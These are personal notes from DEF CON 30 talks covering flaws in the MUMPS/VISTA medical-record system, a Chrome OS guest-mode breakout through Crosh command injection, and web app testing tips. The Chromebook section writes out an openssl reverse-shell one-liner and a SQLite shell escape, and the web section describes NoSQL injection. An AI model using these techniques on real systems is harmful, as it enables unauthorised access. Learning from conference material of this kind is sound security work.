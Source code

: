 # DEF CON 30

author:: Nathan Acks  
date:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

# How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it's also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there's no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans' Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it's written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are *extremely* chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn't think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach's had trouble getting the VA to talk to them, so disclosure's still ongoing here.

VISTA is *really* well-loved by the doctors who use it.

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA'd Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

# Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google...

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It's much faster than Hak5's tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof... There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that's used internally.

If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn't able to catch the end of this presentation, however, as I needed to head out to my last workshop...)

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

# Securing Web Apps

TIL: There is such a thing as NoSQLi, and it's *way* easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using "Preferences > RSA Keys".

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select "Follow > TCP Stream, (3) change "Show data as" to "Raw", and (4) save it off using "Save As".

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
